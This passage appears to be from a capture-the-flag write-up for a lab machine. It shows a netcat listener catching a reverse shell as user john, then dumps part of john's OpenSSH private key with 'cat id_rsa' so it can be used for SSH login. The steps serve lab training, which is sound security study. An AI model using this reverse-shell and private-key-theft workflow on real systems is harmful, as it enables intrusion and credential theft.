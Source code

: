 ![](/img2/Pasted%20image%2020250628131946.png)

```bash
❯ nc -nlvp 9000 
```

```ruby
listening on [any] 9000 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.101] 47546
bash: cannot set terminal process group (673621): Inappropriate ioctl for device
bash: no job control in this shell
john@writer:/var/spool/postfix
```

- Connect ssh with private key

```bash
john@writer:/home/john/.ssh$ cat id_rsa
```

```ruby
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAxqOWLbG36VBpFEz2ENaw0DfwMRLJdD3QpaIApp27SvktsWY3hOJz
wC4+LHoqnJpIdi/qLDnTx5v8vB67K04f+4FJl2fYVSwwMIrfc/+CHxcTrrw+uIRVIiUuKF
OznaG7QbqiFE1CsmnNAf7mz4Ci5VfkjwfZr18rduaUXBdNVIzPwNnL48wzF1QHgVnRTCB3
i76pHSoZEA0bMDkUcqWuI0Z+3VOZlhGp0/v2jr2JH/uA6U0g4Ym8vqgwvEeTk1gNPIM6fg
9xEYMUw+GhXQ5Q3CPPAVUaAfRDSivWtzNF1XcELH1ofF+ZY44vcQppovWgyOaw2fAHW6ea
TIcfhw3ExT2VSh7qm39NITKkAHwoPQ7VJbTY0Uj87+j6RV7xQJZqOG0ASxd4Y1PvKiGhke
tFOd6a2m8cpJwsLFGQNtGA4kisG8m//aQsZfllYPI4n4A1pXi/7NA0E4cxNH+xt//ZMRws
sfahK65k6+Yc91qFWl5R3Zw9wUZl/G10irJuYXUDAAAFiN5gLYDeYC2AAAAAB3NzaC1yc2
EAAAGBAMajli2xt+lQaRRM9hDWsNA38DESyXQ90KWiAKadu0r5LbFmN4Tic8AuPix6Kpya
SHYv6iw508eb/LweuytOH/uBSZdn2FUsMDCK33P/gh8XE668PriEVSIlLihTs52hu0G6oh
RNQrJpzQH+5s+AouVX5I8H2a9fK3bmlFwXTVSMz8DZy+PMMxdUB4FZ0Uwgd4u+qR0qGRAN
GzA5FHKlriNGft1TmZYRqdP79o69iR/7gOlNIOGJvL6oMLxHk5NYDTyDOn4PcRGDFMPhoV
```